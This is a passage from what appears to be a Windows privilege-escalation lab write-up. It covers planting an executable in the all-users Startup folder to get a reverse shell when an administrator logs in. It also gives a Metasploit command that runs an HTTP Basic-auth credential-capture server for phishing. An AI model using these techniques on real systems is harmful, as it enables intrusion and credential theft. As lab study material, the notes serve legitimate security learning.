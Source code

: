 - simply copy a malicious executable to `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\`
- then when an administrator logs in you will gain a reverse shell

![image](/assets/images/windowsprivescarena/20220425053954.png)

![image](/assets/images/windowsprivescarena/20220425054009.png)

## Password Mining Escalation - Memory

- the discussed attack can be helpful in phishing demonstration , will use metasploit as :

```powershell
msfconsole -x "use auxiliary/server/capture/http_basic;set uripath x ; run"
```

- This module responds to all requests for resources with a HTTP 401. This should cause most browsers to prompt for a credential. If the user enters Basic Auth creds they are sent to the console
